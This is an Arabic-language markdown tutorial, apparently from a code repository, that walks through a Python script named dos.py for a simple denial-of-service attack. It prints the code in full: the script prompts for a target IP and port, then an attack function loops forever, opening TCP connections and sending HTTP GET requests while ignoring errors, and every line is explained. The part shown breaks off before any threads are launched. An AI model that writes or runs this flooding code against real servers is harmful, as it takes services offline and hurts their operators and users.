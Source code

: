 # 💥 هجوم Denial of Service (DoS) - dos.py

## 📋 نظرة عامة

هذا الملف يوضح كيفية تنفيذ هجوم Denial of Service بسيط. هذا الهجوم يهدف إلى تعطيل الخدمة عن طريق إرسال عدد كبير من الطلبات المتزامنة.

## 🔍 شرح مفصل للكود

### 📦 الاستيرادات
```python
import socket, threading
```
- **socket**: للاتصال الشبكي
- **threading**: لإنشاء خيوط متعددة للهجوم المتزامن

### 🎯 الحصول على معلومات الهدف
```python
target = input("Target IP: ")
port = int(input("Target Port: "))
```

**شرح كل سطر:**
- **target**: طلب عنوان IP الهدف من المستخدم
- **port**: طلب رقم البورت وتحويله إلى رقم صحيح

### ⚔️ دالة الهجوم
```python
def attack():
    while True:
        try:
            s = socket.socket()
            s.connect((target, port))
            s.send(b"GET / HTTP/1.1\r\nHost: target\r\n\r\n")
            s.close()
            print("Sentdos to " + target + " on port " + str(port))
        except:
            pass
```

**شرح كل سطر:**
- **def attack()**: تعريف دالة الهجوم
- **while True**: حلقة لا نهائية لإرسال الطلبات باستمرار
- **try**: بداية معالجة الأخطاء
- **s = socket.socket()**: إنشاء socket جديد
- **s.connect((target, port))**: الاتصال بالهدف
- **s.send(b"...")**: إرسال طلب HTTP GET
- **s.close()**: إغلاق الاتصال
- **print(...)**: طباعة رسالة تأكيد
- **except**: تجاهل أي أخطاء
- **pass**: عدم فعل شيء في حالة الخطأ
